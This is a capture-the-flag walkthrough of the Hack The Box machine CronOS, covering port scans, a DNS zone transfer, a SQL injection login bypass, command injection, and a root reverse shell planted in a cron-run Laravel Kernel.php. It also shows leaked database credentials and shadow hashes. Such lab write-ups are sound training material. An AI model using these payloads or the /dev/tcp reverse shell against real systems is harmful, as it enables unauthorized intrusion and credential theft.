

# CronOS

This is the writeup of the box CronOS from Hack The Box.

First we started executing a full port scan on the host.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/cronos]
└──╼ [★]$ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.10.13
[sudo] password for th3g3ntl3m4n: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 12:39 -04
Initiating Parallel DNS resolution of 1 host. at 12:39
Completed Parallel DNS resolution of 1 host. at 12:39, 0.02s elapsed
Initiating SYN Stealth Scan at 12:39
Scanning 10.10.10.13 [65535 ports]
Discovered open port 53/tcp on 10.10.10.13
Discovered open port 80/tcp on 10.10.10.13
Discovered open port 22/tcp on 10.10.10.13
SYN Stealth Scan Timing: About 14.52% done; ETC: 12:43 (0:03:03 remaining)
SYN Stealth Scan Timing: About 28.01% done; ETC: 12:43 (0:02:37 remaining)
SYN Stealth Scan Timing: About 41.55% done; ETC: 12:43 (0:02:08 remaining)
SYN Stealth Scan Timing: About 55.16% done; ETC: 12:43 (0:01:38 remaining)
SYN Stealth Scan Timing: About 68.77% done; ETC: 12:43 (0:01:09 remaining)
SYN Stealth Scan Timing: About 82.38% done; ETC: 12:43 (0:00:39 remaining)
Completed SYN Stealth Scan at 12:43, 220.81s elapsed (65535 total ports)
Nmap scan report for 10.10.10.13
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 220.93 seconds
           Raw packets sent: 66593 (2.930MB) | Rcvd: 66592 (2.664MB)
```

Then, we executed a port scan only on open ports found on the host.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/cronos]                                                                                                                          
└──╼ [★]$ sudo nmap -v -sV -sC -Pn -p 22,53,80 -oA nmap/cronos 10.10.10.13                                                                                                                    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.                                                                                                
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 12:54 -04
...
...
PORT   STATE SERVICE REASON         VERSION                                                                                                                                                                       
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)                                                                                                                  
| ssh-hostkey:                                                                                                                                                                                                    
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)                                                                                                                                                                   
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn
9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn                                      
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)                                                                                                                                                                  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=                                                
|   256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)                                                                                                                                                                
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx                                                                                                                                
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)                                                                                                                                             
| dns-nsid:                                                                                                                                                                                                       
|_  bind.version: 9.10.3-P4-Ubuntu                                                                                                                                                                                
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                                                                                               
|_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                      
| http-methods:                                                                                                                                                                                                   
|_  Supported Methods: OPTIONS GET HEAD POST
```

## Enumeration

Acessing the webserver page that is running on port 80, we got the following default Apache Web Server page.



We executed a brute-force directory in order to find some directory/file hidden on the host.

```bash
[10:58:52]-[th3g3ntl3m4n@bl4ckbuntu]~/htb/oscp/cronos -> cat gobuster/cronos_root 
http://10.10.10.13/server-status        (Status: 403) [Size: 299]
```

As we saw before, we check that the DNS port 53 is open, so running the host command on the host we got the following information about a name server domain.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/oscp/cronos]
└─$ host 10.10.10.13 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 

13.10.10.10.in-addr.arpa domain name pointer ns1.cronos.htb.
```

We found the subdomain ns1.cronos.htb. With that we write down the cronos.htb domain on our local file hosts.


Accessing the domain found we got the following.


We ran again a brute-force directory enumeration in order to find some hidden directories/files.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/oscp/cronos]
└─$ cat gobuster/cronos_root 
http://cronos.htb/css                  (Status: 301) [Size: 306] [--> http://cronos.htb/css/]
http://cronos.htb/js                   (Status: 301) [Size: 305] [--> http://cronos.htb/js/]
http://cronos.htb/index.php            (Status: 200) [Size: 2319]
http://cronos.htb/robots.txt           (Status: 200) [Size: 24]
http://cronos.htb/server-status        (Status: 403) [Size: 298]
http://cronos.htb/.php                 (Status: 403) [Size: 289]
http://cronos.htb/.php                 (Status: 403) [Size: 289]
http://cronos.htb/index.php            (Status: 200) [Size: 2319]
http://cronos.htb/.php                 (Status: 403) [Size: 289]
```

Using host with the option -l we were able to enumerate more subdomains on the server.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/oscp/cronos]
└─$ host -l cronos.htb ns1.cronos.htb 
Using domain server:
Name: ns1.cronos.htb
Address: 10.10.10.13#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```

We add two more subdomains in our local hosts file.


Accessing the admin subdomain we got.


We were able to bypass login page using SQL Injection payload `admin' or 1=1-- -` .


There is a Net Tool page that execute Net commands. We were able to inject system commands on the field.


We executed the following bash payload.


Back to our listener we were able to get a reverse shell.


Searching around on the host we were able to get some database crdentials saved in config.php file.

```bash
(remote) www-data@cronos:/var/www/admin$ cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

| **USER** | **PASSWORD** | **SERVICE** |
| --- | --- | --- |
| admin | kEjdbRigfBHUREiNSDs | SQL - database = admin |
|  |  |  |

We were able to log into MySQL database system on the server.

```bash
(remote) www-data@cronos:/var/www/admin$ /usr/bin/mysql -u admin -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 27
Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

There is an admin database that contains the tables.


Querying in the users table, we got the hash password from user admin.


We identify the hash but we couldn’t crack it.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/…/oscp/images/exploitation/MySQL]
└─$ name-that-hash -t '4f5fffa7b2340178a716e3832451e058'

  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 
    

4f5fffa7b2340178a716e3832451e058

Most Likely 
MD5, HC: 0 JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, HC: 900 JtR: raw-md4
NTLM, HC: 1000 JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, HC: 1100 JtR: mscach

Least Likely
Domain Cached Credentials 2, HC: 2100 JtR: mscach2 Double MD5, HC: 2600  Tiger-128,  Skein-256(128),  Skein-512(128),  Lotus Notes/Domino 5, HC: 8600 JtR: lotus5 md5(md5(md5($pass))), HC: 3500 Summary: Hashcat 
mode is only supported in hashcat-legacy. md5(uppercase(md5($pass))), HC: 4300  md5(sha1($pass)), HC: 4400  md5(utf16($pass)), JtR: dynamic_29 md4(utf16($pass)), JtR: dynamic_33 md5(md4($pass)), JtR: dynamic_34
Haval-128, JtR: haval-128-4 RIPEMD-128, JtR: ripemd-128 MD2, JtR: md2 Snefru-128, JtR: snefru-128 DNSSEC(NSEC3), HC: 8300  RAdmin v2.x, HC: 9900 JtR: radmin Cisco Type 7,  BigCrypt, JtR: bigcrypt
```

## Privilege Escalation

Searching for a point where we can escalate our privilege we found some interesting configuration on crontab server.

```bash
(remote) www-data@cronos:/home/noulis$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

There is a call for artisan tool that execute as user root. Searching in the laravel documentation we found that the scheduler execute the file Kernel.php in app/Console directory. Checking this file we change the line `$schedule->exec` and write down our reverse shell.

```jsx
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/8443 0>&1"');
        //          ->hourly();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```

Checking back our listener we got reverse shell.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/oscp/cronos]
└─$ nc -vnlp 8443
listening on [any] 8443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.13] 48492
bash: cannot set terminal process group (31641): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:/var/www/laravel#
```

Collecting the hashes from the system users.

```bash
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5fL6A0
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVUZhms.
noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHSZmg7/
```